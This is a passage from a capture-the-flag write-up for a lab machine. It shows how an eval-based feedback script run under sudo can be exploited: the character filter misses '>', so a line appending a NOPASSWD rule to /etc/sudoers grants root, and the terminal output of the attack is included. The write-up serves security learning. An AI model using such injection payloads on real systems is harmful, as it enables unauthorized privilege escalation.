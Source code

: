     echo "Invalid input. Please provide a valid input." 
fi
{% endhighlight %}

The script above attempts to filter out the input value from the users with these characters:

- **`\``**
- **`)`**
- **`$(`**
- **`|`**
- **`&`**
- **`;`**
- **`?`**
- **`!`**
- **`\`**

Then it uses the **`eval`** command to evaluate and execute the input string in the shell if the input value can pass the validation.

The **`eval()`** function is the vulnerability of the script if I can bypass the validation! From the filtered characters listed, the filtering was missing the **`>`** character. In this write-up, I will use this character to embed my malicious input to escalate the privilege and take control of the **`root`** user.

### Method 1: Add current user to **`Sudo`** group

```
deku@myheroacademia:~$ sudo /opt/NewComponent/feedback.sh 
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
deku ALL=NOPASSWD: ALL >> /etc/sudoers 
It is This:
Feedback successfully saved.
deku@myheroacademia:~$ sudo -l
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
    (root) NOPASSWD: ALL
```

```
deku@myheroacademia:~$ sudo su
root@myheroacademia:/home/deku# cd
root@myheroacademia:~# cat root.txt 
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _ 
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/ 

THM{REDACTED}
```
